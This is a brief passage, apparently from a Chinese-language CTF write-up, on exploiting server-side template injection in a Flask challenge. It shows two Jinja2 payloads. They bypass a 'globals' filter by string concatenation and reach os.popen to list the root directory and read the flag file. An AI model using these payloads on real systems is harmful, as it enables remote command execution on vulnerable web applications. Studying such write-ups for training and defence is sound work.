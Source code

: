 之后尝试调用自建函数, 结果返回 500, 改用 `self.__init__` 起点, 依然失败, 推测过滤了 `globals`, 先找用拼接字符串的方式重构:

```python
{{''.__class__.__mro__[2].__subclasses__()[59].__init__['__glob'+'als__'].__builtins__['__import__']('os').popen('ls /').read()}}
```

执行成功:

![6-6.png](6-6.png)

最终 payload:

```python
{{''.__class__.__mro__[2].__subclasses__()[59].__init__['__glob'+'als__'].__builtins__['__import__']('os').popen('cat /flasklight/coomme_geeeett_youur_flek').read()}}
```

![6-7.png](6-7.png)
